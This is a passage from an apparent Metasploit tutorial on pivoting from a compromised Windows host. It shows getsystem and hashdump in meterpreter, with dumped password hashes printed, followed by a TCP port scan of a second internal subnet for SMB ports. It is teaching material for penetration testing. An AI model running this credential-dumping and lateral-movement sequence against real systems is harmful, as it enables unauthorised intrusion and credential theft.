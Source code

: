 ## Connection to 2nd Computer

Let's obtain the hash information with the `getsystem` command on the first computer. We will try to connect to the 2nd computer using this hash information. Remember that computers on the network perform authorization checks with hash values. You can see the Metasploit Framework [Privilege Escalation](/msf-privilege-escalation/) article about this technique.

With the following commands, we obtain SYSTEM information with `getsystem`, we obtain hash information with `hashdump` and we send the session to the background with `CTRL+Z` keys.

```bash
meterpreter > getsystem
...got system (via technique 1).

meterpreter > run hashdump
> Obtaining the boot key...
> Calculating the hboot key using SYSKEY c2ec80f879c1b5dc8d2b64f1e2c37a45...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...
Administrator:500:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9a6ae26408b0629ddc621c90c897 b42d:07a59dbe14e2ea9c4792e2f189e2de3a:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:ebf9fa44b3204029db5a8a77f5350160:::
victim:1004:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >
Background session 1? [y/n]
msf exploit(ms10_002_aurora) >
```

## Scanning the 2nd Computer Network

Thanks to routing, we can now communicate with the 2nd computer network. Then let's scan this network and see if ports `139` and `445` are open. You can also scan all ports if you want. We will scan these two ports just to give an example. We will use the `auxiliary/scanner/portscan/tcp` module for this scan. Note that we set the RHOSTS variable in the module to `RHOSTS 10.1.13.0/24`.

```bash
msf exploit(ms10_002_aurora) > use auxiliary/scanner/portscan/tcp 
msf auxiliary(tcp) > show options

Module options:

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   FILTER                        no        The filter string for **capturing traffic
   INTERFACE                     no        The name of the interface
   PCAPFILE                      no        The name of the PCAP capture file to process
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target address range or CIDR identifier
   SNAPLEN      65535            yes       The number of bytes to capture
   THREADS      1                yes       The number of concurrent threads
   TIMEOUT      1000             yes       The socket connect timeout **in **milliseconds
   VERBOSE      false            no        Display verbose output

msf auxiliary(tcp) > set RHOSTS 10.1.13.0/24
RHOST => 10.1.13.0/24
msf auxiliary(tcp) > set PORTS 139,445
PORTS => 139,445
msf auxiliary(tcp) > set THREADS 50
THREADS => 50
msf auxiliary(tcp) > run

> 10.1.13.3:139 - TCP OPEN
```